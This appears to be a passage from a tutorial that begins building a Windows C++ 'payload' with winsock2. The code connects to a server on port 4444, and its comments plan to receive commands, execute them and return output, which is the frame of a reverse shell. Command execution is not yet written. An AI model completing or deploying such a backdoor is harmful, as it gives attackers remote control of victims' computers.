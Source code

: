 The payload is going to target Windows computers so I'll be using `winsock2` for connecting to the socket. First let's include the necessary dependencies:

```cpp
#include <stdlib.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string>
#include <vector>

#pragma comment(lib, "Ws2_32.lib")
```

Now we create our main function and connect to the server:

```cpp
int main()
{

	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);

	// Connect to the server
	// 1. Listen for command
	// 2. Execute the command
	// 3. Send back the output
	// Goto 1

	struct addrinfo* result = NULL, * ptr = NULL, hints;

	ZeroMemory(&hints, sizeof(hints));
	hints.ai_family = AF_INET;
	// the socket type and protocol will be TCP
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;

	if (getaddrinfo("", "4444", &hints, &result) != 0)
	{
		printf("getaddrinfo failed.\n");
	}

	SOCKET sock = INVALID_SOCKET;

	// create socket object
	sock = socket(result->ai_family, result->ai_socktype, result->ai_protocol);

	if (sock == INVALID_SOCKET)
	{
		printf("socket failed.\n");
		return 1;
	}

	// connect to the server
	connect(sock, result->ai_addr, (int)result->ai_addrlen);

	// cleanup
	closesocket(sock);
	WSACleanup();
	
}
```
